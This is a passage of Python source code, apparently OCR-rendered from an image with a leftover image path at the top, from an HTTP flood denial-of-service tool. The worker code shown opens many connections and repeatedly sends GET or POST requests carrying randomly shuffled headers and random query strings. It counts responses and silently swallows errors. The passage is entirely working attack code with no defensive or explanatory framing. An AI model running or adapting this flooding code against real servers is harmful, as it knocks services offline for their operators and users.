                     self.socks.append(c)

                for conn_req in self.socks:

                    (url, headers) = self.createPayload()

                    method = random.choice([METHOD_GET, METHOD_POST]) if self.method == METHOD_RAND else self.method

                    conn_req.request(method.upper(), url, None, headers)

                for conn_resp in self.socks:

                    resp = conn_resp.getresponse()
                    self.incCounter()

                self.closeConnections()

            except:
                self.incFailed()
                if DEBUG:
                    raise
                else:
                    pass # silently ignore

        if DEBUG:
            print("Worker {0} completed run. Sleeping...".format(self.name))

    def closeConnections(self):
        for conn in self.socks:
            try:
                conn.close()
            except:
                pass # silently ignore


    def createPayload(self):

        req_url, headers = self.generateData()

        random_keys = list(headers.keys())
        random.shuffle(random_keys)
        random_headers = {}

        for header_name in random_keys:
            random_headers[header_name] = headers[header_name]

        return (req_url, random_headers)

    def generateQueryString(self, ammount = 1):

        queryString = []

        for i in range(ammount):

            key = self.buildblock(random.randint(3,10))
            value = self.buildblock(random.randint(3,20))
            element = "{0}={1}".format(key, value)
            queryString.append(element)

        return '&'.join(queryString)
